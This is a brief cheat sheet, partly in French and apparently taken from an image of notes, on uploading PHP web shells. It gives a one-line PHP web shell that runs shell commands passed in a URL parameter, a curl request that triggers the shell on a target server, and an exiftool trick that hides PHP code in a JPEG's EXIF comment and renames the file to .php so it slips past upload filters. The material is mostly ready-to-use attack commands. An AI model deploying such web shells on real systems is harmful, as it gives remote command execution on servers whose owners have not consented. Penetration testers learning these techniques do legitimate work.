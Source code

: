 #Shells 

```php
echo '<?php system($_GET['command']);?>' > webshell.php
```

Exploitation:

```
curl http://target.com/uploads/webshell.php?command=id HTTP/1.1
```

#Exiftool 

Avec une image jpeg legitime, coller le shell est dans les données exif de l'image - en particulier sur le `Comment` pour le garder bien à l'écart.

```sh
exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" image.jpeg

mv image.jpeg image.jpeg.php
```


